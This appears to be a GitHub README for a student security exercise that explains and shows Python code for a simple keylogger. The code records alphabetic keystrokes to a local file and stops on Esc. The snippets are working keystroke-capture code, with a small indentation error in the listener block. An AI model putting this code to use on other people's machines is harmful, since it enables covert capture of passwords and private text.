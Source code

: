 # PRODIGY_CS_04

Welcome to PRODIGY_CS_04! This is a project that aims to collect and store the keys pressed by users on the keyboard.

## Function

The keylogger function works on the following:
1.  The program defines a global variable `log_file` for the log file path and an empty list `current_word` to store the characters of the current word being typed.

2.  When a key is pressed, the `on_press` function checks if the key is an alphabetic character. If it is an alphabetic character, it appends the character to the `current_word` list. If a space key is pressed and `current_word` is not empty, it writes the concatenated characters (the current word) to the log file and resets `current_word`.

3. The `on_release` function monitors key releases and checks if the 'esc' key is pressed. If the 'esc' key is pressed, it writes any remaining characters in `current_word` as a word to the log file and stops the keylogger.

4. The program sets up a keyboard listener using `keyboard.Listener`, linking the `on_press` and `on_release` functions to handle key press and release events. The listener runs in the background, continuously monitoring keyboard input until the 'esc' key is pressed.

5.  The program runs, capturing and logging only alphabetic keystrokes. Words are logged line-by-line in the `keylog.txt` file, ignoring spaces and special characters. The keylogger stops when the 'esc' key is pressed, ensuring any remaining word is saved to the file before exiting.

## Usage

1. Create the log file.
   ```
   log_file = "keylog.txt" 
   ```
2. Log the keys.
   ```
   def on_press(key):
    global current_word
    try:
        if key.char.isalpha():
            current_word.append(key.char)
    except AttributeError:
        if key == keyboard.Key.space and current_word:
            with open(log_file, "a") as f:
                f.write("".join(current_word) + "\n")
            current_word = []
    except Exception as e:
        print(f"Error writing to file: {e}")
    ```
3. Stop and set upt the listener
 ```   
   def on_release(key):
    # Stop listener on pressing 'esc'
    if key == keyboard.Key.esc:
        if current_word:  # Write the last word if any
            with open(log_file, "a") as f:
                f.write("".join(current_word) + "\n")
        return False

    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
 ```
 

## Output and Execution 
![Screenshot (498)](https://github.com/user-attachments/assets/175b688a-2652-4c91-b03f-fef3af01d4bb)
![Screenshot (499)](https://github.com/user-attachments/assets/d43af13d-8c66-4ef2-b469-ec1f62d63d7a)

Happy coding!
